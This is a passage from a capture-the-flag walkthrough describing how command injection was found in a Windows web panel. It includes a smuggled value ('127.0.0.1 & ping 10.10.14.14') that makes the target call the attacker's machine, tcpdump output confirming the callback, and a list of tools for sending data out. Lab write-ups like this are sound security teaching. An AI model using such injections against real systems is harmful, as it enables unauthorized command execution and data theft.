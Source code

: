 

## Shell As Alan

### Enumeration

#### RCE Discovery

I wanted to see if I could inject commands into this panel. Since the
only output I see is "Connection to host successful", I won't be able to
just add `& whoami` to the end and see the output. The first strategy
that I would try is to send out results over the network. This is easier
on Linux where I have `nc`, `curl`, etc. On Windows, I can try
`certutil`, `ping`, `powershell`.

I decided to try a really simple injection - adding commands to the end.
In Windows, there are three types of [conditional
execution](https://ss64.com/nt/syntax-conditional.md):

-   `command1 && command2` - Run 2 if 1 succeeds
-   `command1 || command2` - Run 2 if 1 fails
-   `command1 & command2` - Run both

If I enter `127.0.0.1 & ping 10.10.14.14`, it should ping itself, and
then me. I'll watch in `tcpdump`:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:03:43.507202 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 87, length 40
    09:03:43.507263 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 87, length 40
    09:03:44.631350 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 88, length 40
    09:03:44.631369 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 88, length 40
    09:03:45.576903 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 89, length 40
    09:03:45.576920 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 89, length 40
    09:03:46.687291 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 90, length 40
    09:03:46.687331 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 90, length 40



Not only does it ping me, but 5 times, the default in Windows. The ping
I got from the panel the first time was 2 times, so the script likely
ran something like `ping -n 2 127.0.0.1 & ping 10.10.14.14`.

#### PowerShell

I wanted to see if I could run PowerShell commands. Since `&&` and `||`
are based on the error level returned, I can use that to determine if
things are succeeding.

I'll demonstrate in my Windows VM. When I have a successful PowerShell
command, the ErrorLevel is 0. When I enter something that fails, it's 1.


